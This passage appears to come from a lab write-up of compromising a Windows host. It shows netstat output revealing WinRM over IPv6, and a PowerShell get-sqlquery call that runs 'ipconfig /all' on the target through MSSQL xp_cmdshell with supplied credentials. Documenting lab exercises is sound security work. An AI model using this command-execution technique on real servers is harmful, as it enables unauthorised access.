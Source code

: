 Local port enumeration shows that the WinRM port 5985 is listening for IPv6 connections:

```
 output
 ------
 
 Active Connections
 
   Proto  Local Address          Foreign Address        State

   TCP    [::]:80                [::]:0                 LISTENING
   TCP    [::]:135               [::]:0                 LISTENING
   TCP    [::]:445               [::]:0                 LISTENING
   TCP    [::]:1433              [::]:0                 LISTENING
   TCP    [::]:5985              [::]:0                 LISTENING
   TCP    [::]:41433             [::]:0                 LISTENING
   TCP    [::]:47001             [::]:0                 LISTENING
   TCP    [::]:49664             [::]:0                 LISTENING
   TCP    [::]:49665             [::]:0                 LISTENING
   TCP    [::]:49666             [::]:0                 LISTENING
   TCP    [::]:49667             [::]:0                 LISTENING
   TCP    [::]:49668             [::]:0                 LISTENING
   TCP    [::]:49669             [::]:0                 LISTENING
   TCP    [::]:49710             [::]:0                 LISTENING
   TCP    [::1]:50280            [::]:0                 LISTENING
   TCP    [::1]:50311            [::]:0                 LISTENING
```

The IPv6 address is `dead:babe::1001`:

```
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'ipconfig /all'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------

Windows IP Configuration

   Host Name . . . . . . . . . . . . : COMPATIBILITY
   Primary Dns Suffix  . . . . . . . : intranet.poo
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : intranet.poo

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-8F-F7-4E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:babe::1001(Preferred)
   Link-local IPv6 Address . . . . . : fe80::55b2:8257:8174:cc7%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.13.38.11(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : dead:babe::1
                                       10.13.38.2
   DNS Servers . . . . . . . . . . . : dead:babe::1
                                       10.13.38.2
   NetBIOS over Tcpip. . . . . . . . : Disabled
```
